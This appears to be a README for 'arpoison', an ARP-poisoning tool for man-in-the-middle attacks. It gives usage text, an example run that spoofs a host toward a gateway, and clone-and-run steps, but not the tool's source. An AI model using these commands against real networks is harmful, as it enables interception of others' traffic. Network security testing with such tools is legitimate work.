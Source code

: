 # arpoison
ARP-poisoning tool

Can conduct mitm attacks spoofing an IP address, sending custom ARP-replies

## USAGE:
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison --help
./arpoison - Send arbitrary ARP replies
Usage: ./arpoison [-i interface] -s ip_address -t dest_ip
    -i    interface to send on
    -s    IP address we are claiming to be
    -t    IP address of recipient
    -m    Ethernet MAC address of recipient
</pre> 

## EXAMPLE:
<pre><font color="#EF2929"><b>root@B4LT0</b></font>:<font color="#729FCF"><b>~</b></font># ./arpoison -i wlan0 -s 192.168.1.15 -t 192.168.1.1 -m S8:7C:18:5B:9D:62
[i] Using interface wlan0
[+] spoof IP:	192.168.1.15 (192.168.1.15)
[+] target IP:	192.168.1.1 (_gateway)
[+] target MAC:	S8:7C:18:5B:9D:62
[+] my MAC:	A4:35:B0:84:0A:87
[i] Building ARP packet...done
[i] Enveloping Ethernet frame...done
[+] Sending stage 0
[+] Sending stage 1
[+] Sending stage 2
[+] Sending stage 3
[+] Sending stage 4
[+] Sending stage 5
</pre>

## DOWNLOAD:

### Here the instruction to clone it:
<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~</b></font># git clone > > https://github.com/b4lt0/arpoison.git
Cloning into &apos;arpoison&apos;...
remote: Counting objects: 39, done.
remote: Compressing objects: 100% (33/33), done.
remote: Total 39 (delta 13), reused 0 (delta 0), pack-reused 0
Unpacking objects: 100% (39/39), done.
</pre>

### Move within the folder:

<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~</b></font># cd arpoison/</pre>

### Make it executable:

<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~/arpoison</b></font># chmod +x arpoison</pre>

## Run!

<pre><font color="#EF2929"><b>root@b4lt0</b></font>:<font color="#729FCF"><b>~/arpoison</b></font># ./arpoison --help
./arpoison - Send arbitrary ARP replies
Usage: ./arpoison [-i interface] -s ip_address -t dest_ip
    -i    interface to send on
    -s    IP address we are claiming to be
    -t    IP address of recipient
    -m    Ethernet MAC address of recipient
</pre>
